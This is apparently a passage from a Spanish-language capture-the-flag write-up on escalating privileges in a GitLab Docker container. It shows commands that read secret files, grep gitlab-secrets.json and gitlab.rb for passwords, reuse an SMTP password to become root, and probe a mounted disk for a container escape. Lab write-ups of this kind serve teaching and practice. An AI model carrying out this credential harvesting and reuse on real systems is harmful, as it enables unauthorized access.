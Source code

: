 ```bash
cat /root_pass
#Output
YG65407Bjqvv9A0a8Tm_7w

su root
Password: YG65407Bjqvv9A0a8Tm_7w

su dude
Password: YG65407Bjqvv9A0a8Tm_7w
```

No es una contraseña.

```bash
cd /opt
ls 
cd /backup
ls -l

cat docker-compose.yml
cat gitlab-secrets.json
cat gitlab-secrets.json | grep "pass"
cat gitlab-secrets.json | grep "user"
cat gitlab.rb
cat gitlab.rb | grep "pass"
```

Hay mucha informacion en estos ficheros. El gitlab.rb contiene un password para el servicio smtp.

```bash
su root
Password: wW59U!ZKMbG9+*#h
whoami
#Output
root
```

Emos podido passar al usuario root pero del contenedor. Aqui algo que todavia suena turbio es este fichero 
```bash
 root_pass 
```
.
Buscamos en los ficheros la coincidencias de este fichero

```bash
grep -r -i "root_pass" 2>/dev/null
```

Aqui vemos un 
```bash
 /dev/sda2 
```
 que parece montado sobre un **root_pass**

```bash
df -h
fdisk -l
```
